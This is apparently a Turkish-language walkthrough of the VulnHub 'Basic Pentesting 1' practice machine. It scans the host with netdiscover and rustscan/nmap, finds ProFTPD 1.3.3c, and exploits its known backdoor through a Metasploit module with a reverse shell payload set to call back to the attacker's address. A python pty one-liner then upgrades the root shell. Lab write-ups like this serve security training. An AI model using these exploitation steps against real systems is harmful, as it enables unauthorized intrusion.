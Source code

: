 # VULNHUB BASIC PENTESTING 1 WRITEUP

## Makine Kurulumu 
Makineyi kurmak için https://download.vulnhub.com/basicpentesting/basic_pentesting_1.ova dosyasini indirip virtualbox ı kurduktan sonra .ova dosyasına çift 
tıkladıyıp ağ olarak köprü ağını seçmeniz yeterli (bu sayede makine direk local ağınıza bağlanıcak). 

## Çözüm Adımları 
Makinenin ip sini öğrenmek için netdiscover aracını kullanıyoruz: 

```bash
netdiscover 
```

![Resim1](pics/lab1_1.png)

ip yi tespit ettikten sonra rustscan aracı ile port taraması başlatıyoruz: 
```bash
rustscan -a 192.168.1.60 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 

![Resim2](pics/lab1_2.png)


![Resim3](pics/lab1_3.png)

Tarama sonucunda 21 portunda ProFTP 1.3.3c servisinin çalıştığını görüyoruz. Bu yazılım üzerinde bilinen bir zafiyet olup olmadığına bakmak için metasploitte 
arama yapıyoruz: 

```bash
msfconsole -q
```
-q metasploiti bannersiz daha hızlı açmayı sağlar 

```bash
search proftp
```

![Resim4](pics/lab1_4.png)

Yaptığımız arama sonucunda bu sürüm için metasploitte bir backdoor olduğunu görüyoruz . Exploiti çalıştırmak için aşağıdaki komutları kullanıyoruz: 

```bash
use 17
```
```bash
set rhosts 192.168.1.60
```
```bash
set rport 21 
```
```bash
show payloads
```
```bash
set payload 4 
```
```bash
set lhost 192.168.1.59
```
```bash
set lport 1337 
```
```bash
run 
```

Ve içerdeyiz. Shellimizi interaktif hale getirmek için aşağıdaki python kodlarını kullanıyoruz: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![Resim5](pics/lab1_5.png)

Bu sayede pythondaki pty kutuphanesi ile bash shell i almış oluyoruz . Kim olduğumuzu kontrol ettiğimizde ise root olduğumuzu görüyoruz ve privilege 
escalation yapmamıza gerek kalmamasının mutluluğu içerisinde odayı bitiriyoruz. 





